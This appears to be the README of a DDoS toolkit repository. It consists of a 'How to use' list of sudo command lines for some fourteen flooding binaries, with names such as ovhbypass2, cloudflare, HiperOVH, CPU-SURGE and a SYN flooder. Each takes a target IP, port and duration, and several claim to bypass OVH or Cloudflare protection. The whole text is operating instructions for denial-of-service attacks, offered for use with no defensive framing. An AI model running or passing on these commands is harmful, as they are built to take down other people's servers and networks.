 How to use :

SSA : sudo ./ssa (ip)

ETC : sudo ./etc (ip) (port)

OVH : sudo ./ovh %ip %port 9999 0 %time

OVH-V2 : sudo ./ovhbypass2 %ip %port %time udp

STD : sudo ./STD-NOSPOOF %ip %port

STCP : sudo ./STCP %ip %port 10 -1 %time ack

HEX : sudo ./HEX OVH %ip %port 300

NUKE-BYPASS : sudo ./HiperOVH %ip %port

CLOUDFLARE : sudo ./cloudflare %ip 10 -1 300

ETHERA : sudo ./ETHERA %ip %port

CPU-SURGE : sudo ./CPU-SURGE TCP %ip% %port% 300

VALID-SYN : sudo ./WRA %ip% %port% 10 -1 300

R4P3 : sudo ./gre %ip% 10 -1 300
